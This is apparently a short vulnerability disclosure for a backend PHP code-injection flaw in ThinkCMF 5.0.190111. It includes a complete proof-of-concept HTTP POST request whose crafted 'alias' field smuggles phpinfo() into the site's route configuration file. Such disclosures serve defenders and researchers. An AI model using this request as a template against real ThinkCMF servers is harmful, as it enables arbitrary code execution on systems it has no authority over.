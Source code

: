 # ThinkCMF-5.0.190111 backend arbitrary code injection

## Description
ThinkCMF 5.0.190111 failed to filter single quote(i.e. ') in user input, resulting in arbitrary php code injected in `data/conf/route.php`. This vulnerability can be triggered by backend logged in user making a crafted HTTP request to **/portal/admin_category/addpost.html**


![](img/20190128153711.png)
![](img/20190128160928.png)

### The trigger point
![](img/20190128160302.jpg)

## PoC
```http
POST /portal/admin_category/addpost.html HTTP/1.1
Host: 192.168.170.209
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: thinkphp_show_page_trace=0|0; thinkphp_show_page_trace=0|0; PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close

parent_id=0&name=111&alias=1'%3D%3Earray(%22%22%2C%22%22)%2Cphpinfo()%2C'2&description=xxx&more%5Bthumbnail%5D=&seo_title=&seo_keywords=&seo_description=&list_tpl=list&one_tpl=article
```

## Demo
![](img/thinkcmf.gif)
